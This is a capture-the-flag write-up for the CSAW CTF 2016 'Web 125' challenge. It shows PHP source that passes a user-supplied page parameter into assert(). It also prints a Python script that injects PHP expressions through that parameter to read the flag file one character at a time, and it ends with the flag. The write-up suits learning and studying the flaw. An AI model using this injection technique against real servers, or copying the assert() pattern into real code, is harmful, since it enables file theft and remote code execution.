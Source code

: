 ```yaml
---
layout: post
title:  "CSAW CTF 2016"
subtitle: 'Web 125 - Assert() Vulnerability'
date:   2016-09-16 00:06:31
tags:
- CSAW CTF 2016, Assert Vulnerability
---
```


In this challenge, we were given a web page showing `Welcome to my website! I wrote it myself from scratch!.` Next was to find the vulnerability in the page.

`Challenge URL: http://web.chal.csaw.io:8000/`

Obviously the first thing was to look at the source code and found something commented out
`<br /><!--<li ><a href="?page=flag">My secrets</a></li>`

My next aim was to get that using LFI, but it failed as they were filtering off and produced a message Detected hacking attempt! I was sure that there was a `git` page as he had mentioned it in the about page which would get me the full source code. I was successfully able to find the source code which was

```
#A part of the source code
<?php

if (isset($_GET['page'])) {
$page = $_GET['page'];
} else {
$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

I was able to understand that it was using `assert()` which was vulnerable to LFI. I wrote a little script:

```
<br />
#Author Gokul Krishna
#teambi0s

import base64
import string
import requests

url = "http://web.chal.csaw.io:8000/"

def check(payload):
r = requests.get(url, params={'page':payload})
return "Detected" not in r.text
base = '\', "asdf") === false && %s && strpos(\'1'

def get_len(path):
for i in range(2048):
print "Length upto %d" % i
s = 'strlen(file_get_contents("%s")) == %d' % (path, i)
if check(base % s):
print "Found Length %d" % i
return i

def get_str(path):
length = get_len(path)
s = "<?php"
while len(s) < length:
for c in string.printable:
t_s = s + c
payload = 'substr(file_get_contents("%s"), 0, %d) == base64_decode("%s")' % (path, len(t_s), base64.b64encode(t_s))
if check(base % payload):
s += c
print c
print s.replace("\n", " ")
return s

print get_str("templates/flag.php");
```

Flag is: `flag{3vald_@ss3rt_1s_best_a$$ert}`
